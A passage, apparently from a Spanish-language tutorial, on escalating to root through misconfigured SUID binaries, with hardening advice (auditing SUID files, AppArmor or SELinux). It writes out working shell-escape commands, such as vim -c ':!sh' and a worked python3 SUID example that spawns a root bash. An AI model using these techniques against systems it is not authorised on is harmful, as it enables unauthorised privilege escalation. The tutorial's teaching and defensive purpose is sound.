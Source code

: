 Y estarás en una shell como root (si nmap tenía SUID).

---

### 🧯 ¿Cómo proteger el sistema?

| Acción recomendada                        | Descripción                                              |
| ----------------------------------------- | -------------------------------------------------------- |
| No pongas binarios innecesarios como SUID | Solo los esenciales como `/usr/bin/passwd` deben tenerlo |
| Revisa permisos regularmente              | Usa `find / -perm -4000` y audita                        |
| Usa AppArmor o SELinux                    | Para restringir lo que puede hacer un binario            |
| Usa GTFOBins para auditar tus binarios    | Así sabrás si alguno es peligroso                        |

---

### 📘 Resumen

| Punto              | Detalle                                                            |
| ------------------ | ------------------------------------------------------------------ |
| ¿Qué es?           | Usar programas mal configurados para obtener privilegios           |
| Herramientas clave | `find`, `chmod`, `GTFOBins`, binarios como `vim`, `nmap`, `python` |
| Cómo detectar      | Buscar archivos con bit SUID                                       |
| Cómo prevenir      | No asignar SUID a binarios peligrosos                              |
| Ejemplo práctico   | `vim -c ':!sh'` con SUID da shell root                             |

---

### ✅ Ejemplo final completo y funcional

#### 🔧 Preparación (como root):

```bash
cp /usr/bin/python3 /tmp/pyroot
chmod u+s /tmp/pyroot
chown root:root /tmp/pyroot
```

#### 👤 Como usuario sin privilegios:

```bash
/tmp/pyroot -c 'import os; os.system("/bin/bash")'
whoami
```

✅ Resultado:

```
root
```

---